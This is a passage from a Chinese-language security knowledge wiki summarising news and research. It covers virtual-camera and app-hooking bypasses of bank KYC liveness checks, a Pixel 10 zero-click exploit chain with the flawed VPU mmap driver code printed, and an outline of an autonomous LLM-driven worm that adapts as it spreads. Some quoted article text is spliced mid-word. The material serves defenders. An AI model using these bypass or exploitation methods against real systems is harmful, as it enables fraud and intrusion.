- [London Met Police Big Tech Data Requests](https://github.com/QianJinGuo/wiki/blob/main/entities/london-met-police-big-tech-data-requests.md)
- [Nathan Lambert Claude Mythos Open Weights](https://github.com/QianJinGuo/wiki/blob/main/entities/nathan-lambert-claude-mythos-open-weights.md)
- [Shinyhunters 7 Eleven Data Breach](https://github.com/QianJinGuo/wiki/blob/main/entities/shinyhunters-7-eleven-data-breach.md)
- [Japan Pm Cybersecurity Review Anthropic Mythos](https://github.com/QianJinGuo/wiki/blob/main/entities/japan-pm-cybersecurity-review-anthropic-mythos.md)
- [New Cybersecurity Coalition Us Policy](https://github.com/QianJinGuo/wiki/blob/main/entities/new-cybersecurity-coalition-us-policy.md)

→ [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/interpol-operation-ramz-mena-cybercrime.md)

---

## Ch12.039 Cyberscammers are bypassing banks' security with illicit tools sold on Telegram

> 📊 Level ⭐⭐ | 9.4KB | `entities/cyberscammers-bypassing-bank-telegram.md`

# Cyberscammers are bypassing banks' security with illicit tools sold on Telegram

> **来源**: [原文链接](https://www.technologyreview.com/2026/04/15/1135898/cyberscammers-bypassing-bank-telegram)

## 核心发现

 Published Time: 2026-04-15T07:26:12-04:00 Markdown Content: From inside a money-laundering center in Cambodia, an employee opens a popular Vietnamese banking app on his phone. The app asks him to upload a photo associated with the account, so he clicks on a picture of a 30-something Asian man. Next, the app requests to open the camera for a video "liveness" check. The scammer holds up a static image of a woman bearing no resemblance to the man who owns the account. After a 90-second wait—as the...

## 技术分析

### 威胁机制

ance checks imposed by financial institutions ranging from major crypto exchanges such as Binance to name-brand banks like Spain's BBVA.

"Specializing in bank services—handling dirty money," reads the since-deleted Telegram bio of the program used by the Cambodian launderer, complete with a thumbs-up emoji. "Secure. Professional. High quality." Some of the channels and groups had thousands of subscribers or members, and many posted bullet points listing their services ("All kinds of KYC verification services"; "It's all smooth and seamless") alongside videos purporting to show successful hacks.

Telegram says that after reviewing the accounts, it removed them for violating its terms of service. But such online marketplaces proliferate easily, and multiple channels and groups advertising similar tools remain active.

#### **Banks and butchers**

The rise in KYC bypasses has occurred alongside an expansion of a global industry in "pig-butchering" cyberscams. Crypto platforms and banks around the world are facing increasing scrutiny over the [flow](https://www.nytimes.com/2025/11/17/technology/crypto-exchanges-dirty-money.html) of illegally obtained money, including profits from such scams, through their platforms. This has prompted tightened banking regulations in countries such as [Vietnam](https://www.dfdl.com/insights/legal-and-tax-updates/vietnam-tightens-anti-money-laundering-framework/) and [Thailand](https://www.tilleke.com/insights/thailand-issues-mandatory-guidelines-enhancing-digital-fraud-controls/57/), where governments have increased customer verification and fraud monitoring requirements and are pushing for stronger anti-money-laundering safeguards in the crypto industry.

Chainalysis, a US blockchain analysis firm, [estimates](https://www.chainalysis.com/blog/crypto-scams-2026/) that around $17 billion was stolen in 2025 in crypto scams and fraud, up from $13 billion in 2024. The United Nations Office on Drugs and Crime, meanwhile, [warned](https://www
globalchinapulse.net/moving-bricks-money-laundering-practices-in-the-online-scam-industry/)." Money launderers use KYC bypasses to access the accounts and quickly redistribute the profits before converting them into digital assets—typically in the form of the stablecoin Tether, a type of cryptocurrency that is pegged to the US dollar.

These transactions often happen in seconds, under tightly orchestrated management. "They know, very clearly, the flow of how the banks verify or authenticate accounts," Ngo says.

#### **A cat-and-mouse game**

The growth of cyberscam money laundering has led to heightened scrutiny of financial institutions. In 2023, Binance [pleaded guilty](https://www.justice.gov/archives/opa/pr/binance-and-ceo-plead-guilty-federal-charges-4b-resolution) in US federal courts to operating without anti-money-laundering safeguards. Donald Trump [pardoned](https://www.theguardian.com/technology/2025/oct/23/binance-trump-pardon-changpeng-zhao) former Binance CEO Chaopeng Zhao last October.

Recent [analysis](https://www.icij.org/investigations/coin-laundry/cryptocurrency-exchanges-binance-okx-money-laundering-crime/) from the International Consortium of Investigative Journalists found that after Zhao's guilty plea, more than $400 million continued to move to Binance from Huione Group, a Cambodia-based firm that the US sanctioned after the Treasury Department [deemed](https://home.treasury.gov/news/press-releases/sb0278) it a "critical node" for money laundering in p

## 与现有实体对比

- **差异化**: 新威胁类型（Cyberscammers are bypassing banks' security with illicit tools sold on Telegram），现有安全实体侧重传统 Web 攻击
- **相关实体**: 浏览器安全与隐私

## 相关实体
- [Cyberscammers Are Bypassing Banks Security With Illicit Tool](https://github.com/QianJinGuo/wiki/blob/main/entities/Cyberscammers-are-bypassing-banks-security-with-illicit-tool.md)
- [Llmreaper Dom Based Ai Conversation Exfiltration Via Browser](https://github.com/QianJinGuo/wiki/blob/main/entities/llmreaper-dom-based-ai-conversation-exfiltration-via-browser.md)
- [Ai_Threat_Readiness_Framework](https://github.com/QianJinGuo/wiki/blob/main/entities/ai_threat_readiness_framework.md)
- [Npm Supply Chain Compromise Postmortem](https://github.com/QianJinGuo/wiki/blob/main/entities/npm-supply-chain-compromise-postmortem.md)
- [Cloudflare Glasswing Mythos Security](https://github.com/QianJinGuo/wiki/blob/main/entities/cloudflare-glasswing-mythos-security.md)

→ [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/cyberscammers-bypassing-bank-telegram.md)

## 深度分析

**1. 虚拟摄像头（VCam）攻击已成为 KYC 绕过的核心手段** 

攻击者通过虚拟摄像头替换真实视频流，使用静态图片或 deepfake 视频骗过活体检测。MIT Technology Review 调查发现 22 个中越英语言 Telegram 频道公开售卖此类工具，服务对象涵盖 Binance、西班牙 BBVA 等主流金融机构。这种攻击模式已经从技术概念演变为可规模化部署的地下产业。

**2. KYC 绕过正在成为 pig-butchering 骗局的基础设施** 

Chainalysis 数据显示 2025 年加密货币诈骗损失达 170 亿美元，较 2024 年增长 31%。联合国毒品犯罪问题办公室警告亚洲诈骗集团在非洲和太平洋地区的扩张使其"快速规模化盈利"。KYC 绕过工具使诈骗集团能够快速开设 mule 账户，将赃款转入银行后立即通过 Tether 等稳定币洗白，整个过程可在秒级完成。

**3. 金融机构面临"看不见的失败"困境** 

Sumsub 反欺诈产品负责人 Artem Popov 指出："重要的是我们看不到的部分"——存在大量未被检测到的攻击。虚拟摄像头攻击在 2024 年全球频率较 2023 年增长超过 25 倍，"复杂"或"多步"欺诈尝试（包括 VCam 绕过）在其客户群中几乎翻了三倍。金融机构往往在攻击发生很久后才意识到被突破。

**4. 攻防博弈正在从应用层向操作系统层迁移** 

Talsec CEO Sergiy Yakymchuk 介绍，早期仅需反编译银行 APP 即可完成绕过，现在需要 jailbreak 手机或向金融 APP 注入"挂钩框架"代码触发虚拟摄像头。攻击者同时 compromise 手机本身和金融机构 APP 代码，再向虚拟摄像头输入混合的盗窃生物特征和 deepfake。这种趋势意味着单一应用层防护已不足够，需要系统级防御思路。

**5. 监管追赶速度滞后于攻击产业化速度** 

泰国已立法增强 KYC 监控、限制每日交易金额、授权监管机构暂停账户；美国 FinCEN 于 2024 年底发布警告鼓励平台追踪更广泛的交易模式。但研究者 Ngo 认为："新安全或报告要求会让绕过变得更难，但不会阻止他们——这只是时间问题。"

## 实践启示

- **实施设备完整性检测**：在活体检测过程中增加设备 jailbreak/root 检测、模拟器识别和运行时完整性验证，防止攻击者在手机层面植入虚拟摄像头驱动 

- **行为生物特征识别**：除静态面部匹配外，增加动态行为分析——眨眼频率、头部运动节奏、微表情等活体特征，结合设备交互行为模式进行多维度验证 

- **交易图谱分析**：即使 KYC 被绕过，诈骗资金在账户间快速转移时仍会留下异常交易模式。FINCEN 建议平台追踪广泛交易特征而非单一身份验证节点 

- **跨平台威胁情报共享**：加入金融机构安全联盟，共享 Telegram 渠道发现的绕过工具特征码和攻击模式，因单家机构难以全面监控地下市场 

- **稳定币交易监控**：Tether 已成为赃款洗白首选工具，金融机构应建立加密货币出金业务的专项监控规则，对短期内大额稳定币转换进行预警 

→ [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/cyberscammers-bypassing-bank-telegram.md)

---

## Ch12.040 Securing AI Agents and Machine Identities

> 📊 Level ⭐⭐ | 9.0KB | `entities/1password-securing-ai-agents-machine-identities.md`

## 可视化

### 架构图（Excalidraw / 推荐使用 ✨）

Shareable link: https://excalidraw.com/#json=OUQMTvqOC0O-tqvY2kjvR,0k90NsmJUHkicR8wSny03A

文件位置：`assets/entities/1password-securing-ai-agents-machine-identities.excalidraw`

> Flow moves from AI agents and developer endpoints through 1Password's three core capabilities to risks and best practices, with traditional IAM shown as a limitation requiring replacement.

### 架构图（Mermaid / 知识源 / 可嵌入）



### 封面图（AI 生成 / 装饰参考，仅供参考）


> Agnes image-2.0-flash 生成的 1536×1024 封面。文字可能有拼写错误（典型 AI 图像模型问题），**仅作视觉参考，请以上方 Excalidraw / Mermaid 图为准**。

### 三种可视化对比

| 格式 | 文字准确性 | 可编辑 | 风格 | 推荐场景 |
|------|----------|--------|------|----------|
| **Excalidraw** | ✓ 完美 | ✓ 浏览器/插件可改 | 手绘 (Virgil) | ✨ 首选：演示、分享、嵌入 |
| **Mermaid** | ✓ 完美 | ✓ 修改 .md 即可 | 干净矢量 | 代码嵌入、文本搜索、版本控制 |
| **AI 图像** | ✗ 常拼错 | ✗ 像素锁定 | 手绘 (AI 模拟) | 装饰、封面、社交分享卡 |

### 如何读架构图

1. **三个输入源**（蓝色）：AI Agent、Developer Endpoints、CI/CD Pipelines — 任何需要凭证的身份类型
2. **传统 IAM**（橙色）：左侧 limitation box — 无法覆盖机器工作流
3. **1Password 解决方案**（紫色）：三件套 — 端点发现 / 使用时保护 / 统一审计
4. **核心风险**（红色）：治理盲区 / 凭证蔓延 / 审计薄弱 — 不解决的代价
5. **最佳实践**（绿色）：动态保护 / 零信任 / 最小权限 — 实施方向

## 核心要点
- AI 代理和非人类身份正在扩展访问风险边界，传统 IAM 无法覆盖机器工作流凭证
- 开发者端点、IDE 内、CI/CD 管道中的凭证处于可见性盲区
- 应在凭证使用时动态保护，而非硬编码存储
- 需要建立覆盖人类和机器的统一审计追踪体系

## 背景与问题

随着 AI 代理和自动化工具的普及，访问控制模式正在发生根本性转变。传统的 IAM（身份和访问管理）系统主要针对人类身份设计，但如今凭证越来越多地由机器工作流在开发者端点、IDE 内部以及 CI/CD 管道中创建和使用。

这一转变带来三大核心挑战：

1. **治理盲区**：安全团队无法有效监控非人类身份的访问行为
2. **凭证蔓延**：机器身份产生的凭证分散在多个系统，难以集中管理
3. **审计薄弱**：传统审计日志难以追踪 AI 代理的操作轨迹

## 深度分析

### 非人类身份的风险特征

AI 代理具有自主决策和行动能力，其身份验证凭证（如 API 密钥、服务账户令牌）一旦泄露或被滥用，攻击者可以：

- 在无需二次验证的情况下横向移动
- 以机器身份执行敏感操作
- 绕过基于人类行为的异常检测机制

这与 [Tool Poisoning 攻击](https://github.com/QianJinGuo/wiki/blob/main/entities/ai-tool-poisoning-exposes-a-major-flaw-in-enterprise-agent-security.md) 形成互补威胁——后者针对工具供应链，前者针对身份认证层。

### 传统 IAM 的局限性

传统 IAM 系统设计时假设：

- 身份数量有限且相对稳定
- 身份与特定人员强绑定
- 访问行为具有可预测的人类模式

这些假设在 AI 代理场景下均不成立。AI 代理可能同时以多种机器身份运行，且行为模式与人类显著不同。

### 1Password 的解决思路

根据 1Password 的 webinar 分享，其企业方案聚焦于三个核心能力：

1. **端点级发现**：从开发者端点开始识别非人类凭证
2. **使用时保护**：在凭证被调用的瞬间进行安全处理，而非静态存储
3. **统一审计**：生成跨越人类和机器身份的完整审计轨迹

这一思路与 [AWS 和 Cisco 的 AI Defense 方案](https://github.com/QianJinGuo/wiki/blob/main/entities/securing-ai-agents-how-aws-and-cisco-ai-defense-scale-mcp-and-a2a.md) 在「覆盖人类和机器的统一审计」目标上形成呼应，但 1Password 更聚焦于开发者端点侧的凭证发现与保护。

## 与其他安全方案的关联

| 维度 | 1Password 方案 | AWS/Cisco AI Defense | Tool Poisoning 防御 |
|------|---------------|---------------------|-------------------|
| **核心焦点** | 端点凭证发现与保护 | MCP/A2A 协议级安全 | 工具供应链验证 |
| **覆盖范围** | 开发者端点、IDE、CI/CD | AI Agent 通信协议 | 工具注册表元数据 |
| **防护阶段** | 凭证使用时的动态保护 | 协议层的注册与扫描 | 工具加载前的验证 |

详见 [MCP Gateway 与 AI Gateway 的安全对比](https://github.com/QianJinGuo/wiki/blob/main/entities/ai-gateways-vs-mcp-gateways-what-security-teams-need-to-know.md)。

## 实践启示

### 对于安全团队

- 立即盘点现有 AI 代理和自动化工具使用的凭证资产
- 评估现有 IAM 是否能覆盖非人类身份场景
- 建立专门的机器身份治理策略

### 对于开发团队

- 避免在代码中硬编码凭证，使用专门的密钥管理服务
- 在 CI/CD 流程中实施最小权限原则
- 为 AI 代理操作启用详细审计日志

### 对于组织

- 将非人类身份纳入整体零信任架构
- 定期审计 AI 代理的权限范围和实际使用情况
- 准备应对 AI 代理被攻击后的应急响应流程

## 相关实体

- [AgentCore Identity](https://github.com/QianJinGuo/wiki/blob/main/entities/aws-bedrock-agentcore-identity-security.md) — AWS Bedrock Agent 身份与访问管理

→ [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/1password-securing-ai-agents-machine-identities.md)

---

## Ch12.041 A 0-click exploit chain for the Pixel 10: When a Door Closes, a Window Opens

> 📊 Level ⭐⭐ | 9.0KB | `entities/a-0-click-exploit-chain-for-the-pixel-10-when-a-door-closes-a-window-opens.md`

## 核心要点
- Project Zero 团队成功为 Pixel 10 编写了类似 Pixel 9 的 0-click exploit chain
- 两个漏洞构成完整攻击链：Dolby UDC（媒体解码器漏洞）+ VPU 驱动漏洞
- Pixel 9 的 BigWave 驱动在 Pixel 10 中不存在，取而代之的是 VPU 驱动
- VPU mmap 处理程序存在严重安全漏洞：可以通过指定大于寄存器区域的 size 来映射任意物理内存
- 5 行代码实现任意内核读写；完整 exploit 不到一天完成
- 漏洞修复时间：71 天（2025 年 11 月 24 日报告，2026 年 2 月补丁）

## 漏洞链概述
```
零点击上下文 → Dolby UDC 漏洞 → 代码执行
                              ↓
                     VPU mmap 漏洞 → 内核任意读写
```

### Dolby UDC 漏洞（CVE-2025-54957）
修改用于 Pixel 9 的 exploit 相对简单，主要涉及更新特定库版本的偏移量。Pixel 10 使用 RET PAC 代替 `-fstack-protector`，意味着 `__stack_chk_fail` 不可覆盖。最终使用 `dap_cpcp_init`（初始化代码）替代。

### VPU 驱动漏洞
关键漏洞代码：
```c
static int vpu_mmap(struct file *fp, struct vm_area_struct *vm)
{
    unsigned long pfn;
    struct vpu_core *core = container_of(...);
    vm_flags_set(vm, VM_IO | VM_DONTEXPAND | VM_DONTDUMP);
    vm->vm_page_prot = pgprot_device(vm->vm_page_prot);
    pfn = core->paddr >> PAGE_SHIFT;
    return remap_pfn_range(vm, vm->vm_start, pfn,
                            vm->vm_end-vm->vm_start,
                            vm->vm_page_prot) ? -EAGAIN : 0;
}
```
**问题**：mmap handler 根据 VMA 大小而非寄存器区域实际大小调用 `remap_pfn_range`。通过指定大于寄存器区域的 size，调用者可以从 VPU 寄存器区域开始映射任意物理内存。
由于 Pixel 上内核始终位于相同物理地址（已知偏移），攻击者可以直接计算内核位置，无需扫描。

## 修复过程
- **报告时间**：2025 年 11 月 24 日
- **评级**：High severity（相比 BigWave 漏洞被评为 Moderate 是明显进步）
- **修复时间**：71 天
- **发布渠道**：2026 年 2 月 Pixel 安全公告

## 深度分析
### 从 Pixel 9 到 Pixel 10 的 exploit 移植挑战
移植过程揭示了几个重要观察：
1. **OEM 特定驱动的脆弱性**：BigWave 驱动是 Pixel 9 特有的，在 Pixel 10 中不存在。每个 OEM 都有自己定制的驱动栈，这带来了独特的攻击面。
2. **同类驱动的继承关系**：VPU 驱动由构建 BigWave 驱动的同一组开发者开发，这说明驱动安全问题可能在同一开发团队的多个产品中重复出现。
3. **PAC 的绕过**：Pixel 10 使用 RET PAC（指针认证码）代替传统的栈保护符。这改变了 exploit 策略，需要找到不依赖覆盖 `__stack_chk_fail` 的利用路径。

### VPU mmap 漏洞的技术深度
这个漏洞属于"内核直接任意读写"类，是特权升级的终极目标。几个关键点：
1. **错误边界检查**：mmap handler 错误地信任用户提供的 VMA 大小，而没有验证它是否在硬件寄存器区域的边界内。
2. **物理地址连续性**：VPU 寄存器区域和内核镜像的物理地址在 Pixel 上是可预测的。这意味着偏移量是固定的，不需要信息泄露。
3. **利用简单性**：实现任意内核读写的 exploit 只需要 5 行代码。这不是复杂的ROP链或喷射技术，只是正确使用 mmap 系统调用。

### 补丁时间的意义
71 天的修复时间对于内核驱动漏洞来说是相当快的。Project Zero 指出这是他们报告的第一个在 90 天内修复的 Android 驱动漏洞。这反映了 Android 安全响应流程的改进：

- 初始评级从 Moderate 升为 High
- 修复时间显著缩短
- 漏洞赏金和公开披露政策推动更快的响应

### 系统性改进 vs 单个漏洞修复
Project Zero 的核心目标是推动系统性改进，而非仅仅修复单个 bug。他们希望看到：

- 更强的代码安全开发实践
- 供应商主动审计自己的其他驱动
- 发布前更全面的安全测试
然而，5 个月后在 VPU 驱动中仍然发现了"浅显且立即可发现"的严重漏洞，说明这些愿望尚未实现。

## 实践启示
### 1. OEM 特定驱动是重要的攻击面
Pixel 10 上 BigWave 的缺失和 VPU 的出现说明：OEM 定制驱动带来独特的攻击面。这些驱动通常：

- 代码审查较少
- 安全测试不如主线内核严格
- 由较小的团队开发，可能缺乏安全编码经验
**建议**：在评估设备安全性时，OEM 定制驱动的数量和质量是重要指标。

### 2. 驱动安全应该是系统性优先级
单个漏洞的快速修复固然好，但系统性改进更重要：

- 驱动开发者应该交叉审计团队开发的其他驱动
- 代码审查应该包含安全边界检查
- 新的驱动应该接受基本的安全审计

### 3. mmap 权限检查的关键性
VPU mmap 漏洞的本质是缺少边界检查。这提醒我们：

- 任何映射物理设备的 mmap handler 必须验证请求的大小不超过设备寄存器区域
- 用户控制的 size 参数必须与硬件限制进行交叉验证
- 默认 deny 的安全原则：没有明确允许的都是禁止的

### 4. 物理地址可预测性的危险
Pixel 上内核物理地址的稳定性是一个已知的安全风险（Project Zero 2025年11月的博客讨论过）。虽然这简化了 exploit 开发，但也说明：

- KASLR 在物理地址层面无效
- 硬件驱动的内存映射区域可能与内核物理地址重叠
- IOMMU 可能提供了一些保护，但不是银弹

### 5. 安全研究对生态的贡献
Project Zero 的工作展示了安全研究的价值：

- 发现漏洞后与供应商协调修复
- 推动系统性安全改进
- 公开研究成果让整个生态系统受益
但关键是：**供应商需要采取主动行动**，而不是仅仅修复报告的单个漏洞。
## 相关实体
- [A 0 Click Exploit Chain For The Pixel 10 When A Door Closes A Window Opens 1](https://github.com/QianJinGuo/wiki/blob/main/entities/a-0-click-exploit-chain-for-the-pixel-10-when-a-door-closes-a-window-opens-1.md)
- [Pixel 10 Zero Click Exploit Chain](https://github.com/QianJinGuo/wiki/blob/main/entities/pixel-10-zero-click-exploit-chain.md)
- [Introducing Deepsec Find And Fix Vulnerabilities In Your Code Base](https://github.com/QianJinGuo/wiki/blob/main/entities/introducing-deepsec-find-and-fix-vulnerabilities-in-your-code-base.md)
- [Cloudflare Glasswing Mythos Security](https://github.com/QianJinGuo/wiki/blob/main/entities/cloudflare-glasswing-mythos-security.md)
- [1 Million Exposed Ai Services Hackernews](https://github.com/QianJinGuo/wiki/blob/main/entities/1-million-exposed-ai-services-hackernews.md)
- [MOC](https://github.com/QianJinGuo/wiki/blob/main/moc/security-landscape.md)

→ [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/a-0-click-exploit-chain-for-the-pixel-10-when-a-door-closes-a-window-opens.md)

---

## Ch12.042 U of T AI Worm：CleverHans Lab 展示可自适应的 AI 蠕虫威胁

> 📊 Level ⭐⭐ | 9.0KB | `entities/u-of-t-ai-worm-cleverhans-research.md`

# U of T AI Worm：CleverHans Lab 展示可自适应的 AI 蠕虫威胁

→ [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/u-of-t-ai-worm-cleverhans-research.md)

## 摘要

2026 年 6 月 2 日，多伦多大学（U of T）CleverHans Lab 与 Vector Institute 的 Nicolas Papernot 团队发布研究，首次证明**公开可访问的 AI 模型**可以被用于驱动一种新型蠕虫——这种蠕虫会随着从一个设备扩散到下一个设备而**自适应调整策略**。与传统需要顶尖 AI 能力和高额成本的高级威胁不同，这种 AI 蠕虫可以用免费的开源模型构建，攻击每一个联网设备，而当前的网络防御体系尚未准备好应对这种威胁。

## 核心要点

- **威胁新类别**：使用公开 AI 模型驱动、随传播路径自适应调整策略的蠕虫
- **攻击成本极低**：不需要顶尖 AI 模型或高额资金，用免费的开源模型即可构建
- **攻击面极广**：所有联网设备都是潜在目标，包括金融系统、医院、关键基础设施
- **核心能力**：实时学习、利用每个设备的已知漏洞、在网络内横向移动并接管整个网络
- **可劫持算力**：一旦感染网络，可劫持计算资源以低成本发起复杂攻击
- **防御尚未到位**：传统网络防御体系是为静态威胁设计的，无法应对"会思考的蠕虫"
- **研究动机**：在坏人发现之前，在受控的学术环境里先理解这种威胁
- **团队背景**：Nicolas Papernot（CleverHans Lab 负责人，Vector Institute Canada CIFAR AI Chair）

## 深度分析

### 威胁的本质：从"静态恶意软件"到"会思考的蠕虫"

传统蠕虫的特征是：固定的利用代码 + 固定的传播路径 + 固定的载荷。一旦签名被识别，防御方就能批量拦截。U of T 这项研究揭示的新威胁，其本质差异在于**"会思考"**这一维度：

- **传统蠕虫**：利用代码是写死的，遇到补丁或新系统就失败
- **AI 蠕虫**：模型可以理解当前设备的特征（操作系统版本、运行服务、漏洞库），动态选择利用路径，并在每个新设备上重新规划策略

这等价于把"恶意软件"从"程序"升级为"Agent"——一个能在真实网络环境里做规划、调用工具、利用漏洞的自主系统。

### 为什么"免费模型"就够了

研究的关键判断是：威胁的"推理能力"不一定来自最强的专有模型。开源 LLM 已经在漏洞识别、SQL 注入、命令生成等任务上达到可用水平，配合以下能力就足以构成有效蠕虫：

1. **漏洞模式识别**：根据 banner / 版本号 / 错误信息推断可利用的 CVE
2. **payload 生成**：根据目标系统动态生成攻击 payload
3. **路径规划**：决定下一个感染哪个节点（价值最高 / 最易渗透）
4. **持久化策略**：决定如何在已感染节点上隐藏痕迹

这些能力在 7B-70B 级别的开源模型上已经"足够好用"。攻击者的边际成本接近于零——这是与传统高级威胁（APT）的根本区别。

### 攻击链推演

根据论文描述，AI 蠕虫的攻击链大致可以拆解为：

1. **初始入侵**：钓鱼邮件、暴露的 SSH、默认凭证等"低门槛"入口
2. **环境理解**：模型读取系统信息（uname、ip a、ps aux、网络拓扑）
3. **漏洞匹配**：根据识别到的服务版本，对照公开漏洞库（如 CVE Details）匹配利用路径
4. **横向移动**：尝试相邻节点的弱凭证或已知漏洞
5. **算力劫持**：利用 GPU/CPU 资源进行挖矿、训练攻击模型或对外发起 DDoS
6. **自适应进化**：每次成功渗透的"经验"被用于优化下一步策略

整个过程不需要人工干预，单个初始节点可能在一个晚上感染整个企业内网。

### 防御侧的根本挑战

传统网络防御（IDS/IPS、EDR、零信任、SOC 流程）的设计前提是"威胁模式可枚举"。一旦威胁方引入"会思考的 Agent"，传统防御就出现三个根本盲区：

- **签名失效**：payload 每次都不同，签名匹配命中率接近 0%
- **行为基线失效**：AI Agent 的行为可以模拟正常用户流量，异常检测的误报率飙升
- **响应时间失效**：人类分析师的响应速度（小时级）远慢于 AI 蠕虫的传播速度（分钟级）

防御方需要从"基于签名/规则"升级到"基于 AI 行为理解"——而这正是 AI 安全研究当前最热的子领域之一。

### 与 Agent 安全研究的连接

这项研究也直接呼应了 [Securing Ai Agents How Aws And Cisco Ai Defense Scale Mcp And A2A](https://github.com/QianJinGuo/wiki/blob/main/entities/securing-ai-agents-how-aws-and-cisco-ai-defense-scale-mcp-and-a2a.md) 的核心议题：MCP / A2A 协议让 AI Agent 拥有更强的工具调用和跨系统能力，但同样的能力既可以被良性 Agent 使用，也可以被恶意 Agent 武器化。AI 蠕虫本质上就是"恶意 Agent 在网络中的传播"。

U of T 的研究在企业 Agent 部署的语境下有额外含义：当企业部署 MCP 服务器、A2A 协议时，**这些 Agent 通信通道本身也可能是 AI 蠕虫的传播介质**。安全审计不仅要审计代码，还要审计 Agent 之间的通信模式。

### 学术先发制人的研究伦理

Papernot 团队的措辞很值得注意："It was imperative for us to understand this threat in a controlled, academic setting before bad actors figured it out for themselves."——这种"先在受控环境里理解威胁"的姿态是 AI 安全研究的典型模式，类似于早期密码学、漏洞挖掘领域的"responsible disclosure"。

这种研究的长期价值是双重的：1) 给防御方一个可以研究的"威胁样本"；2) 在公开文献中建立"威胁是可行的"这一共识，推动防御工具和政策的迭代。

## 实践启示

- **AI Agent 部署必须把"恶意 Agent 传播"纳入威胁模型**：MCP / A2A 协议不仅是效率工具，也是潜在的攻击介质
- **企业 AI 资产清单比传统资产清单更重要**：需要建立"哪个 AI Agent 在访问什么数据、调用什么工具、连接哪些 Agent"的实时可见性
- **投资 AI 行为检测能力**：基于 AI 的攻击需要基于 AI 的防御，签名/规则检测的窗口期已经结束
- **关注开源模型的滥用风险**：7B-70B 级别的开源模型足以构成有效威胁，模型分发平台需要嵌入滥用检测
- **关键基础设施需要"零信任 AI"**：金融、医疗、电网等关键系统的 AI 集成必须假设"Agent 可能被武器化"，从架构层面隔离
- **建立 AI 威胁情报共享机制**：单个企业无法独立追踪 AI 蠕虫演化，需要跨行业情报共享（类似传统 ISAC 但针对 AI 威胁）
- **关注 CleverHans Lab / Vector Institute / CAISI 等学术前沿**：这些机构是 AI 防御研究的早期信号源

## 相关实体

- [Securing Ai Agents How Aws And Cisco Ai Defense Scale Mcp And A2A](https://github.com/QianJinGuo/wiki/blob/main/entities/securing-ai-agents-how-aws-and-cisco-ai-defense-scale-mcp-and-a2a.md)
- [Disgruntled Researcher Releases Two More Microsoft Zero Days 5239758](https://github.com/QianJinGuo/wiki/blob/main/entities/disgruntled-researcher-releases-two-more-microsoft-zero-days-5239758.md)
- [两万字详解Claude Code源码核心机制](https://github.com/QianJinGuo/wiki/blob/main/entities/两万字详解claude-code源码核心机制.md)
- [Karpathy 最新访谈从 Vibe Coding 到 Agentic Engineering](https://github.com/QianJinGuo/wiki/blob/main/entities/karpathy-最新访谈从-vibe-coding-到-agentic-engineering.md)
- [构建基于多智能体架构的深度思考交易系统 V2](https://github.com/QianJinGuo/wiki/blob/main/entities/构建基于多智能体架构的深度思考交易系统-v2.md)
- [Openclaw 完全指南这可能是全网最新最全的系统化教程了32W字建议收藏](https://github.com/QianJinGuo/wiki/blob/main/entities/openclaw-完全指南这可能是全网最新最全的系统化教程了32w字建议收藏.md)
- [一文带你弄懂 Ai 圈爆火的新概念Harness Engineering](https://github.com/QianJinGuo/wiki/blob/main/entities/一文带你弄懂-ai-圈爆火的新概念harness-engineering.md)
- [Agent Security Architecture](https://github.com/QianJinGuo/wiki/blob/main/concepts/agent-security-architecture.md)
- [Agent Security Threat Models](https://github.com/QianJinGuo/wiki/blob/main/concepts/agent-security-threat-models.md)
- [Llm Security Red Teaming](https://github.com/QianJinGuo/wiki/blob/main/concepts/llm-security-red-teaming.md)

→ [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/u-of-t-ai-worm-cleverhans-research.md)

---

## Ch12.043 Optimize blueprint extraction accuracy in Amazon Bedrock Data Automation

> 📊 Level ⭐⭐ | 8.8KB | `entities/optimize-blueprint-extraction-accuracy-in-amazon-bedrock-dat.md`

# Optimize blueprint extraction accuracy in Amazon Bedrock Data Automation

Amazon Bedrock Data Automation (BDA) 的 **Blueprint Instruction Optimization** 是一个 2026-06 推出的特性，自动 refine blueprint extraction instructions 来提升 IDP 流水线的精度。开发者只需要提供 3-10 个 example 文档 + ground truth，BDA 在数分钟内完成 instruction 优化（无需 model fine-tuning）。

## 核心机制

- **Blueprint 字段定义（schema 形式）**: 
- `type`: 数据类型（string/number/array 等）
- `inferenceType`:
  - `explicit` — 文档中直接出现的值
  - `inferred` — 需要 reasoning 推算的值
- `instruction` — 自然语言提取指引

- **为什么初始 instruction 不足**: 
- 字段 label 在不同文档 variant 间有变体
- 相似 label 引发混淆（"subtotal" vs "total"）
- 不同供应商 / 时段的版面差异
- 边界 case 需要更具体的提取指引

- **Blueprint instruction optimization 解决什么**: 
- 接受 3-10 example 文档 + expected value
- 自动 refine blueprint instructions
- 几分钟内（不是几周）提升精度
- 不需要单独 fine-tune model

## 工作流（从 schema 优化到 production）

1. **定义初始 blueprint schema** — 包含 `class`（文档类型）、`properties`（字段定义）、每个字段的 `instruction`
2. **收集 example 文档** — 覆盖典型 variant（不同供应商、不同版面）
3. **提供 ground truth** — 每个 example 的 expected extracted values
4. **触发 BDA 优化** — 通过 console 或 API
5. **验证精度** — 在 holdout set 上比较优化前后的 extraction accuracy
6. **部署到生产** — 优化后的 blueprint 可与 Bedrock Knowledge Bases（文档检索）/ Bedrock Agents（决策流）集成

## 实际 schema 示例（Purchase Order）

```json
{
  "class": "Purchase Order",
  "type": "object",
  "properties": {
    "po_number": {
      "type": "string",
      "inferenceType": "explicit",
      "instruction": "The unique identifier for the purchase order"
    },
    "order_date": {
      "type": "string",
      "inferenceType": "explicit",
      "instruction": "The date when the order was placed"
    }
    // ... 更多字段
  }
}
```

## 与现有 IDP 方案对比

| 维度 | 传统 OCR + Regex | LLM 直接 prompt | BDA Blueprint 优化 |
|------|-----------------|----------------|-------------------|
| 精度 | 低（无 reasoning） | 中（依赖 prompt 工程） | 高（自动 instruction refinement） |
| 跨版面泛化 | 差 | 中（需要 prompt 改写） | 强（example-based adaptation） |
| 调优成本 | 手动写规则 | 手动改 prompt | 3-10 个 example + 自动优化 |
| Fine-tune 需要 | N/A | N/A | 不需要 |
| 时间 | 数周 | 数天 | 数分钟 |

## 实践要点

